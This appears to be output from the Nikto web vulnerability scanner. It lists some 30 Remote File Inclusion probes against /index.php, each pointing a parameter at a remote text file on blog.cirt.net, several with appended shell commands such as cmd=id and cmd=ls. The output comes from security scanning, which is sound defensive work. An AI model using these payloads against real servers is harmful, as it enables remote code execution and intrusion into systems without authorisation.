 + /index.php?config[root_ordner]=http://blog.cirt.net/rfiinc.txt?&cmd=id: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?config[root_ordner]=http://blog.cirt.net/rfiinc.txt?cmd=id: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?config_atkroot=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?configuration=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?custom_admin_path=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?dateiPfad=http://blog.cirt.net/rfiinc.txt?&cmd=ls: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?de=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?dept=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?do=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?exec=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?ext=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?faq_path=http://blog.cirt.net/rfiinc.txt?&cmd=id: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?file_Nikto[]=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?file_name[]=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?file_path=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?fileloc=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?from=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?func=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?function=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?function=custom&custom=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?gOo=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?gen=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?get=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?home_Nikto=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?home_name=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?ilang=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?inc_dir=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?inc_dir=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?includeDir=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?includeFooter=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?includesdir=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ /index.php?insPath=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
